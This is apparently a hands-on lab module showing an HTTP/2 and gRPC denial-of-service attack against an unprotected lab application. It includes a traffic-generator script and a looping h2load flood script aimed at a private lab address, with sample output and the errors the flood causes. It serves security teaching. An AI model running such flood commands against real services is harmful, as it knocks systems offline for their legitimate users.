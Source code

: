 Module 6 - HTTP/2 and GRPC DoS Attack on an Unprotected Application
###################################################################

In this module you will generate **good** and malicious traffic. With the addition of malicious traffic will cause the good traffic to error out. We will utilize HTTP/2 and gRPC as part of this module.

Demonstrate the effects of HTTP/2 and gRPC attacks on an unprotected application
-----------------------------------------------------------------------------------

Generate legitimate traffic

   1. In UDF, Click on Access for the **Legitimate Traffic Generator** VM and select WebShell (or ssh into the box if you set that up)

   2. We will utilize the **good.sh** bash script in order to generate HTTP 1 traffic using **curl**, HTTP 2 traffic using **h2load** and using Python3 with route_guide_client to generate gRPC traffic.

.. code-block:: bash 
   :caption: /good.sh

   #!/bin/bash
   cd /grpc/examples/python/route_guide/

   IP=10.1.1.17
   PORT=600
   URI='good_path.html'

   declare -a array=("/#/login" "/#/about" "/assets/public/images/products/apple_pressings.jpg" "/#/search")

   while true; do
   echo
   python3 /grpc/examples/python/route_guide/route_guide_client.py  2>&1 | grep "Finished\|502"
   h2load -n 10 -c 10 --header="te: trailers " --ciphers=AES128-GCM-SHA256  https://10.1.1.17:443/testing/ &> /dev/null

   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null -w "JUICESHOP HTTP Code:%{http_code}\n" -A "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X; en-us) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8J2 Safari/6533.18.5" -H "X-Forwarded-For: 3.3.3.1" http://${IP}:${PORT}/${URI} &
   echo
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.112 Safari/534.30" -H "X-Forwarded-For: 3.3.3.2" http://${IP}:${PORT}/${URI} &
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.3" -H "X-Forwarded-For: 3.3.3.3" http://${IP}:${PORT}/${URI} &


3. Run the good traffic shell script and keep it running:

.. code-block:: bash

   /good.sh


Output from the script: 

.. code:: shell 
 
   JUICESHOP HTTP Code:200
   Finished trip with 10 points

   JUICESHOP HTTP Code:200
   Finished trip with 10 points

   JUICESHOP HTTP Code:200
   Finished trip with 10 points 


Start HTTP/2 Flood attack

   1. Back in the UDF, click **Access** on the **Attack Traffic Generator** VM and select WebShell. Position this tab side-by-side with the **Legitimate Traffic Generator** WebShell tab that is already open so you can see both WebShells at the same time.

.. code-block:: bash
   :caption: http2flood.sh
   
   #!/bin/sh
   while true; do
      h2load -n 10000 -c 1000 http://10.1.1.17:500/routeguide.RouteGuide/GetFeature
   done


2. Run the http2 flood script for 15 seconds and keep it running:

.. code-block:: bash

   /scripts/http2flood.sh


Attack script output:

.. code:: shell 

  finished in 1.07s, 9350.31 req/s, 2.09MB/s
  requests: 10000 total, 10000 started, 10000 done, 0 succeeded, 10000 failed, 0 errored, 0 timeout
  status codes: 0 2xx, 0 3xx, 0 4xx, 10000 5xx
  traffic: 2.23MB (2339000) total, 527.34KB (540000) headers (space savings 45.45%), 1.50MB (1570000) data
                       min         max         mean         sd        +/- sd
  time for request:      625us       1.02s     52.83ms     25.29ms    85.84%
  time for connect:     9.42ms     28.08ms     20.14ms      4.61ms    70.10%
  time to 1st byte:    35.60ms       1.04s     96.07ms     66.04ms    99.60%
  req/s           :       9.56       21.66       17.79        1.69    72.90%
  starting benchmark...
  spawning thread #0: 1000 total client(s). 10000 total requests
  Application protocol: h2c
  progress: 10% done
  progress: 20% done
  progress: 30% done
  progress: 40% done
  progress: 50% done
  progress: 60% done
  progress: 70% done
  progress: 80% done
  progress: 90% done
  progress: 100% done

3. Click back on to the WebShell on the Legitimate Traffic Generator VM. Did the output from the script change? Output should no longer show “Finished trip with 10 points” and you may see one of the following two messages:

   .. code:: shell

      "debug_error_string = "UNKNOWN:Error received from peer {created_time:"2024-01-26T15:39:49.83945022+00:00", grpc_status:2, grpc_message:"Stream removed"}""

   .. code:: shell

      E0129 18:20:43.992650291 4639 hpack_parser.cc:999] Error parsing 'content-type' metadata: invalid value

4. Stop the HTTP2Flood attack running on the Attack Traffic Generator host by pressing **Ctrl+C**

5. On the Legitimate Traffic Generator WebShell, press **Ctrl+C** to exit the script
